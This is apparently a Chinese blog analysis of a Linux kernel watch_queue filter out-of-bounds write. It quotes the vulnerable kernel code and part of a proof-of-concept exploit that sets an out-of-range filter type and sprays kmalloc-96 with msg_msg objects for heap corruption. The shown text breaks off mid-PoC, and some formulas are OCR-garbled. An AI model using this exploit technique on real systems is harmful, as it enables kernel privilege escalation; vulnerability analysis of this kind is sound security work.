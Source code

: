 ```
wfilter = kzalloc(struct_size(wfilter, filters, nr_filter), GFP_KERNEL);
if (!wfilter)
    goto err_filter;
wfilter->nr_filters = nr_filter;
 
q = wfilter->filters;
for (i = 0; i < filter.nr_filters; i++) {
    if (tf[i].type >= sizeof(wfilter->type_filter) * BITS_PER_LONG)
        continue;
 
    q->type            = tf[i].type;
    q->info_filter        = tf[i].info_filter;
    q->info_mask        = tf[i].info_mask;
    q->subtype_filter[0]    = tf[i].subtype_filter[0];
    __set_bit(q->type, wfilter->type_filter);
    q++;
}

```

![](https://img-blog.csdnimg.cn/21a5f6b8d082445fabfdbae76cfeb30b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaW5xdWlzaXRlcg==,size_20,color_FFFFFF,t_70,g_se,x_16)

 

查看相关代码，分配的 watch_type_filter 数量 nr_filter 为 tf[i].type < sizeof(wfilter->type_filter) _8  
而访问 q = wfilter->filters; 则是 tf[i].type >= sizeof(wfilter->type_filter)_ BITS_PER_LONG.

 

sizeof(wfilter->type_filter) _BITS_PER_LONG > sizeof(wfilter->type_filter)_ 8

 

所以这里因该是会造成访问越界地址的问题。只要 sizeof(wfilter->type_filter) _BITS_PER_LONG > tf[i].type > sizeof(wfilter->type_filter)_ 8。

```
long watch_queue_set_filter(struct pipe_inode_info *pipe,
                struct watch_notification_filter __user *_filter){
      ...
    tf = memdup_user(_filter->filters, filter.nr_filters * sizeof(*tf));
...}

```

根据 poc

```
do {
   ntries++;
 
   filter->nr_filters = nfilters;
   for (int i = 0; i < (nfilters - 1); i++) {  // choose kmalloc-96
     filter->filters[i].type = 1;
   }
 
   // Set 1 bit oob to 1, hopefully we overwrite a msg_msg.mlist.next which is not 2k aligned
   filter->filters[nfilters - 1].type = 0x30a; // 0x300 -> 96 bytes oob, 0xa -> 2**10 == 1024
 
   if (pipe2(fds, O_NOTIFICATION_PIPE) == -1) {
     perror("pipe2()");
     exit(1);
   }
 
   // Spray kmalloc-96
   spray_msgmsg();
   delete_msgmsg(MSGMSG_FREE_IDX_1, PRIMARY_SIZE, MTYPE_PRIMARY); // kmalloc
   delete_msgmsg(MSGMSG_FREE_IDX_0, PRIMARY_SIZE, MTYPE_PRIMARY); // memdup
 
```